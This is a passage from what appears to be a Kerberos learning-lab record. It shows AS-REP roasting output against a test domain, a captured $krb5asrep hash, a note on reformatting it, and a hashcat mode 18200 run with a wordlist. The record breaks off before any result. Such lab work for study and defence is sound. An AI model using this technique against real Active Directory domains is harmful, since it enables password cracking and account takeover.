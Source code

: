 ```
      7797B58B3A2AAA9E5AAA0DDB49FBCA36BDB038D05496D396003D22E3FB958957D1A5E1F4CB2A8536
      9DFBD2EC960A11000C0AAF918FD3D9884D30738BC1A5A8D9406E4DE2D032BA5CB22559153349CB86
      B3AD86B9B66DFA6795894FD0015A78836EB13D0B8C97F2AF9989A3F15371F4D427C6D4B7391CF5A6
      045F450F7D3DCB722188CEE829A737C117DF88222B51580F9C91F9DC7861A7E1B5D0A18DE797

[*] SamAccountName         : User3
[*] DistinguishedName      : CN=User-3,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::49:32e1:c909:9ad7%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\User3'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$User3@CONTROLLER.local:2F048AAD73B34BA5279B9E63452FF183$364FC49F66919
      DAD2DF8258620968B295A09CB03E350C9F629CFD5A8EECB172E304D53BC39D60803BD45D3256A173
      74136075147C5AE2363866FCC1C43C0233F97FEF714E4DC68B01C9BE0E63B46BB8B4E5E6351E4E05
      1F189C1937F049E4D4690CA6C05F5A6024B475F9D6B523340923BC6B31509220836CC0A7D424D842
      47F937FCE647A52EE0FF7DD1276CBE32271E83F08A98C0BE72B8F7930F0DCB546517A1D08EB011A5
      6A87F69432481411DB6519F3C73C3E71CE0252F7D5C670A893A283CCA1D839949BD81AE76196981F
      AF4E05862A6E71D982F5B1AB1556ECAB520709BEABF065AE76922829C34318A56251E0C5B48
```
```add 23$ after rep
cat hash3.txt                                   
$krb5asrep$23$User3@CONTROLLER.local:2F048AAD73B34BA5279B9E63452FF183$364FC49F66919DAD2DF8258620968B295A09CB03E350C9F629CFD5A8EECB172E304D53BC39D60803BD45D3256A17374136075147C5AE2363866FCC1C43C0233F97FEF714E4DC68B01C9BE0E63B46BB8B4E5E6351E4E051F189C1937F049E4D4690CA6C05F5A6024B475F9D6B523340923BC6B31509220836CC0A7D424D84247F937FCE647A52EE0FF7DD1276CBE32271E83F08A98C0BE72B8F7930F0DCB546517A1D08EB011A56A87F69432481411DB6519F3C73C3E71CE0252F7D5C670A893A283CCA1D839949BD81AE76196981FAF4E05862A6E71D982F5B1AB1556ECAB520709BEABF065AE76922829C34318A56251E0C5B48

```

```
┌──(kali㉿kali)-[~/Downloads/learning_kerberos]
└─$ hashcat -m 18200 hash3.txt Pass.txt      
hashcat (v6.2.5) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-10210U CPU @ 1.60GHz, 1243/2550 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB
```